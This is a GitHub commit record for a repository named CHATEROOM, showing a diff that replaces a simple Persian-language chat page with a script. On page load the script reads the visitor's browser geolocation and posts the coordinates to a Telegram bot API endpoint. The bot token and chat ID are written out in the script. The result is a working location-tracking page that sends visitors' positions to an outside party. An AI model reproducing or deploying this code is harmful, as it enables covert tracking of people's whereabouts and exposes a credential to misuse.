

Before and after one commit to Webwork1387/CHATEROOM, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-800 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,90 +1,40 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="fa">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Document</title>
-    <style>
-        body, html {
-    margin: 0;
-    padding: 0;
-    font-family: Arial, sans-serif;
-    height: 100%;
-    display: flex;
-    justify-content: center;
-    align-items: center;
-    background-color: #f4f4f4;
-}
+    <title>Automatic Location Sender to Telegram</title>
+    <script>
+        window.onload = function() {
+            if (navigator.geolocation) {
+                navigator.geolocation.getCurrentPosition(position => {
+                    const { latitude, longitude } = position.coords;
+                    sendLocationToTelegram(latitude, longitude);
+                }, error => {
+                    console.error('Error getting location:', error);
+                });
+            } else {
+                console.log('Geolocation is not supported by this browser.');
+            }
+        };
 
-#chat-container {
-    width: 90%;
-    max-width: 600px;
-    margin: auto;
-    background: white;
-    box-shadow: 0 0 10px rgba(0,0,0,0.1);
-    padding: 20px;
-    display: flex;
-    flex-direction: column;
-}
+        function sendLocationToTelegram(latitude, longitude) {
+            const url = 'https://api.telegram.org/bot6923568496:AAHM_gMcdsy-O712NIoj87NbVe1fp7auoiw/sendLocation';
+            const params = new URLSearchParams();
+            params.append('chat_id', '1209515299');
+            params.append('latitude', latitude);
+            params.append('longitude', longitude);
 
-#messages {
-    flex-grow: 1;
-    overflow-y: auto;
-    padding: 10px;
-    border: 1px solid #ccc;
-    margin-bottom: 10px;
-    height: 300px;
-}
-
-input[type="text"] {
-    padding: 10px;
-    border: 1px solid #ccc;
-    border-radius: 4px;
-    margin-right: 10px;
-    flex-grow: 1;
-}
-
-button {
-    padding: 10px 20px;
-    border: none;
-    background-color: #007BFF;
-    color: white;
-    cursor: pointer;
-}
-
-button:hover {
-    background-color: #0056b3;
-}
-    </style>
+            fetch(url, {
+                method: 'POST',
+                body: params
+            })
+            .then(response => response.json())
+            .then(data => console.log('Location sent to Telegram:', data))
+            .catch(error => console.error('Error sending location to Telegram:', error));
+        }
+    </script>
 </head>
 <body>
-    <div id="chat-container">
-        <div id="messages"></div>
-        <input type="text" id="message-input" placeholder="پیام خود را وارد کنید...">
-        <button onclick="sendMessage()">ارسال</button>
-    </div>
-    <script>
-        let messagesContainer = document.getElementById('messages');
-
-function sendMessage() {
-    let messageInput = document.getElementById('message-input');
-    let message = messageInput.value.trim();
-    if (message) {
-        displayMessage(message, 'You');
-        messageInput.value = '';
-        // Simulate receiving a reply
-        setTimeout(() => {
-            displayMessage("پیام دریافت شد", "Them");
-        }, 1000);
-    }
-}
-
-function displayMessage(message, sender) {
-    let messageElement = document.createElement('div');
-    messageElement.textContent = `${sender}: ${message}`;
-    messagesContainer.appendChild(messageElement);
-    messagesContainer.scrollTop = messagesContainer.scrollHeight;
-}
-    </script>
+    <h1>Automatic Location Sender</h1>
 </body>
 </html>
```
